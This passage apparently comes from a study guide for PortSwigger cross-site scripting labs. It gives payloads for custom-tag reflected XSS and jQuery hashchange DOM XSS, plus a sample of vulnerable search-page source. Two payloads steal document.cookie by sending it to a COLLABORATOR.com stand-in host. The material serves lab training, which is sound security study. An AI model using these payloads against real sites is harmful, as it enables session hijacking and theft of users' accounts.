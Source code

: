 ```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```

[PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

[z3nsh3ll - explaining custom tags for XSS attacks](https://youtu.be/sjs6RS7lURk)

#### OnHashChange

> Below iframe uses **HASH** `#` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.

```JavaScript
<iframe src="https://TARGET.net/#" onload="document.location='http://COLLABORATOR.com/?cookies='+document.cookie"></iframe>
```

> Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.

> PortSwigger Lab payload perform print.

```JavaScript
<iframe src="https://TARGET.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

> Note: _**Identify**_ the vulnerable jquery 1.8.2 version included in the `source code` with the CSS selector action a the **hashchange**.

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

[Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom\_xss\_jquery\_hashchange/writeup.md)

#### Reflected String XSS

> Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is _**identified**_ to reflect the search string `tracker.gif` in the `source code` with a variable named `searchTerms`.

```html
<section class=blog-header>
	<h1>0 search results for 'fuzzer'</h1>
	<hr>
</section>
<section class=search>
	<form action=/ method=GET>
		<input type=text placeholder='Search the blog...' name=term>
		<button type=submit class=button>Search</button>
    </form>
    </section>
	<script>
    var searchTerms = 'fuzzer';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
